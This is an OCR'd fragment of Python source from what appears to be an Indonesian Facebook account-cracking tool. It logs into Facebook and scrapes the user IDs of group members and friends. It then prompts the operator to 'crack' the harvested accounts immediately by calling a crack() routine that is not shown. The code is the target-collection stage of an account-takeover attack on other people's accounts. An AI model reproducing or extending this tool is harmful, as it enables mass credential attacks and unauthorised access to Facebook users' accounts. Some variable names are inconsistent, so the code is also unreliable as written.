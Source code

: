 			next = br.find_link(url_regex='/browse/group/members/').url

		except:

			cetak('!m[!] Hanya Bisa Mengambil !h %d id'%len(id_bgroup))

			break

	simpan()

	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])

	if i.upper() == 'Y':

		return crack(id_bgroup)

	else:

		return menu()

def saring_id_teman(r):

	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):

		id_bteman.append(i)

def idteman():

	if log != 1:

		cetak('!h[*] Login !bFB !hdulu bos...')

		login()

		if log == 0:

			keluar()

	cetak('!h[*] Sedang mengumpulkan id teman...')

	buka('https://m.facebook.com/friends/center/mbasic/?fb_ref=bm&sr=1&ref_component=mbasic_bookmark&ref_page=XMenuController')

	jumlah = br.find_link(url_regex='/friends/center/friends/').text

	jumlah = re.findall(r'\((.*a?)\)',jumlah)[0]

	cetak('!h[*] Mengambil !p%s !hid teman'%jumlah) 

	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))

	try:

		next = br.find_link(url_regex='friends_center_main').url

	except:

		if len(id_teman) != 0:

			cetak('!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))

		else:

			cetak('!m[!] Batal')
